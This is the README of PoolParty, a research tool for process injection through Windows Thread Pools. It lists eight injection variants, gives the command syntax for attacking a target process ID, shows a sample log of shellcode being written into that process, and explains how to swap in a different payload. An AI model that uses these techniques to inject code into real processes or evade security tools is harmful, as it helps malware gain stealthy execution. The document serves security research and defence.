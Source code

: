 <<<<<<< HEAD
# PoolParty
=======
# PoolParty
A collection of fully-undetectable process injection techniques abusing Windows Thread Pools. Presented at Black Hat EU 2023 Briefings under the title - [**The Pool Party You Will Never Forget: New Process Injection Techniques Using Windows Thread Pools**](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)

## PoolParty Variants

| Variant ID  | Varient Description |
| ------------- | ----------------- |
| 1  | Overwrite the start routine of the target worker factory       |
| 2  | Insert TP_WORK work item to the target process's thread pool   |
| 3  | Insert TP_WAIT work item to the target process's thread pool   |
| 4  | Insert TP_IO work item to the target process's thread pool     |
| 5  | Insert TP_ALPC work item to the target process's thread pool   |
| 6  | Insert TP_JOB work item to the target process's thread pool    |
| 7  | Insert TP_DIRECT work item to the target process's thread pool |
| 8  | Insert TP_TIMER work item to the target process's thread pool  |

## Usage
```
PoolParty.exe -V <VARIANT ID> -P <TARGET PID>
```

## Usage Examples

Insert TP_TIMER work item to process ID 1234
```
>> PoolParty.exe -V 8 -P 1234

[info]    Retrieved SeDebugPrivilege successfully
[info]    Starting PoolParty attack against process id: 1234
[info]    Retrieved handle to the target process: 00000000000000B8
[info]    Hijacked worker factory handle from the target process: 0000000000000058
[info]    Hijacked timer queue handle from the target process: 0000000000000054
[info]    Allocated shellcode memory in the target process: 00000281DBEF0000
[info]    Written shellcode to the target process
[info]    Retrieved target worker factory basic information
[info]    Created TP_TIMER structure associated with the shellcode
[info]    Allocated TP_TIMER memory in the target process: 00000281DBF00000
[info]    Written the specially crafted TP_TIMER structure to the target process
[info]    Modified the target process's TP_POOL tiemr queue list entry to point to the specially crafted TP_TIMER
[info]    Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[info]    PoolParty attack completed successfully

```

## Default Shellcode and Customization
The default shellcode spawns a calculator via the [WinExec API](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec). 

To customize the executable to execute, change the path in the end of the `g_Shellcode` variable present in the main.cpp file.

## Author - Alon Leviev
* LinkedIn - [Alon Leviev](https://il.linkedin.com/in/alonleviev)
* Twitter - [@_0xDeku](https://twitter.com/_0xDeku)
>>>>>>> f0bb963 (Update README.md)
